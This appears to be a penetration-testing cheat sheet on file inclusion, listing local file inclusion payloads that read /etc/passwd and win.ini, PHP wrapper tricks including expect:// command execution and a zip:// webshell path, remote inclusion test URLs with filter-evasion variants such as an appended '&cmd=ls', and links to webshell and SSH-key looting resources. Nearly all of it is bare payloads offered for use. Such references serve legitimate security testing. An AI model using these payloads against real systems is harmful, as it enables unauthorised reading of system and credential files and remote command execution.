 # File Inclusion

## Local File Inclusion (LFI)

### Linux LFI Payloads

```
/etc/passwd
```

### Windows LFI Payloads

```
/windows/win.ini
```

### LFI Evasion Filters

```
php://filter/convert.base64-encode/resource=/path/to/file
php://input
data://text//plain;base64,<base64_encoded_payload>
expect://<os_command>
zip://file.jpg%23shell.php
```

## Remote File Inclusion (RFI)

### URL Payloads

```
https://cirt.net/rfiinc.txt
https://rfi.nessus.org/rfi.txt
```

### RFI Evasion

```
HTTps://cirt.net/rfiinc.txt
https://cirt.net/rfiinc.txt?
https://cirt.net/rfiinc.txt??
https://cirt.net/rfiinc.txt?%00&cmd=ls
```

---
## References

### Hacktricks

- [Hacktricks: PHP - Useful Functions & disable_functions/open_basedir bypass](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass)

### PayloadsAllTheThings

- [PayloadsAllTheThings: File Inclusion](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/)

- [PinoyWH1Z: SSH-Private-Key-Looting-Wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)

- [0xffsec Handbook File Inclusion and Path Traversal](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/)

- [Cobalt: A Pentester's Guide to File Inclusion](https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion)

- [Malicious.link: Simple PHP webshell with php filter chains](https://room362.com/posts/2023/simple-php-webshell-with-php-filter-chains/)

- [Certcube: Cheatsheet - LFI & RCE & Webshells](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-webshells/)